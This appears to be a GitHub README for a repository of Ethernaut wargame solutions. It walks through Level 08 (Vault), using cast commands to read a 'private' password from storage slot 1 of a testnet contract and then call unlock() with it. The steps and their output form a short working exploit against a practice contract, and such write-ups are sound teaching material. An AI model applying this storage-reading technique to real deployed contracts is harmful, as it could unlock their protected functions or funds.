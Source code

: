 # Repo of my attack contracts for Ethernaut

## Notes

### Level 08 - Vault
    - First take the deployed contract address from the Ethernaut
    - Then use the cast storage command to get the value stored at slot 1
```bash
cast storage 0x7f28d1dABCcCB4d88C305Ed18499aa6A8A1F8AD2 1 --rpc-url $SEPOLIA_RPC_URL 
  |
  |
 \ /

0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```

    - Next, we call the function unlock with the secret as the parameter:
```bash
cast send 0x7f28d1dABCcCB4d88C305Ed18499aa6A8A1F8AD2 "unlock(bytes32)" 0x412076657279207374726f6e67207365637265742070617373776f7264203a29 --rpc-url ...
```
    - We can encode the parameter by using cast:

    ```bash
cast to-ascii 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
                \/
A very strong secret password :)

    ```
    